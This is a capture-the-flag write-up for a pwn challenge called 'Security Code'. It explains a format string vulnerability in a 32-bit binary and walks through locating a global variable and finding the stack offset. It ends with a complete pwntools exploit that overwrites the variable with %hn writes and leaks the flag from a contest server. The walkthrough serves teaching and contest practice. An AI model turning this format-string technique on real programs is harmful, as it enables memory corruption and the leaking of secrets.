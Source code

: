 ## Security Code [445 pts]

**Category:** Pwn
**Solves:** 36

### Description
>Can you print the flag?

## Solution

In this challenge we are provided an 32bit ELF binary which is vulnerable to format string.
First I checked `checksec` command on this file:

```bash
$ checksec --file=securitycode 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   83) Symbols	  No	0
```

As we can se PIE is not enabled and checking these details we can use typical format string techniques to exploit this bug.
Decompiling this binary with IDA results us with following images:


![main](images/1.jpg)
![hello_admin](images/1.jpg)
![auth_admin](images/1.jpg)

As we can see in the images we should change value in `security_code` using format strings to pass the condition,
And get to the `auth_admin` which will lead us to flag.

Our next step is to find reference location of `security_code`. using `readelf`:

```bash
$ readelf -a securitycode | grep security_code
    66: 0804c03c     4 OBJECT  GLOBAL DEFAULT   26 security_code
```

The procedure to exploit is as follow:

- First send A value to program, so it will redirect us into `hello_admin`

- Next We should write value in location of `security_code` to make condition pass. 
New value should be `0xABADCAFE`

- After that we will be leaded to `auth_admin`, But by default it will not show us flag.
Again we should do another `format string` exploit and try to read of memory value of flag.

- There is a limitation on reading value in this step, so we should read 6 string of flag at a time, 
and provide an offset on location we are reading in next hit.

To find offset of where is the `security_code` location from stack, I just fuzzed with giving below input format 
and findout that it is location at position 15. So we should point to location of it using format string
`%15$n`

```bash
AAAA%15$p
Hello our dear admin, AAAA0x41414141
```
As u can see the value `AAAA` that we provided, is overwriten in location offset `%15$n`.
This is our start point.

### The rest detail of explit is written on codes below. Will try to make it more details later.

The final exploit code to receive the flag:

```python
from pwn import *

flag = ''

# We will hit program for 30 iterations (just a number to get all available characters in flag)
# And in each try will change offset of getting flag value.
for i in range(30):

	# First we will connect to program using pwntools methods.
    # r = process("./securitycode")
    r = remote('185.97.118.167', 7040)

    # First Send A to be forwarded to hello_admin
    r.recvuntil("Enter 'A' for admin and 'U' for user.")
    r.sendline('A')

    # Value to overwrite is: xABADCAFE
    # ABAD: 43949
    # CAFE: 51966
    # So we need to first write this value in location of security_code address,
    # But cause it's more than two bytes, we will try to write two times in our format string payload.
    # cause CAFE is of a higher value we should first write it in location 15 from stack
    r.recvuntil('Enter you name:')
    payload = '\x3e\xc0\x04\x08\x3c\xc0\x04\x08%43941x%15$hn%8017x%16$hn'
    r.sendline(payload)

    # Now try to read of the flag step by step
    r.recvuntil('Enter your password:')
    payload = '%{}$x'.format(i)
    r.sendline(payload)

    x = r.recvline()
    x += r.recvline()
    x += r.recvline()
    x = x.replace('The password is ', '').strip()
    # it's just a method i used, it's not very clean, but got me the flag :)!
    try:
        flag += bytearray.fromhex(x).decode()[::-1]
    except:
        pass

print(flag)
```
